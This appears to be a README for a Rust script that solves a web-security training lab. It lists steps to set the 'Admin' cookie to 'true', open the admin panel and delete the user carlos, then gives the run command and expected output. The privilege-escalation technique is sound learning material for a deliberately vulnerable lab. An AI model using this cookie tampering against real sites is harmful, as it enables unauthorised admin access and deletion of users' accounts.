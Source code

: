 # Hack Steps

1. Change the cookie 'Admin' to 'true'
2. Fetch the admin panel
3. Delete carlos

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ cargo run
```

# Expected Output

```
1. Changing the cookie 'Admin' to 'true'.. OK
2. Fetching the admin panel.. OK
3. Deleting carlos.. OK
🗹 The lab should be marked now as solved
```
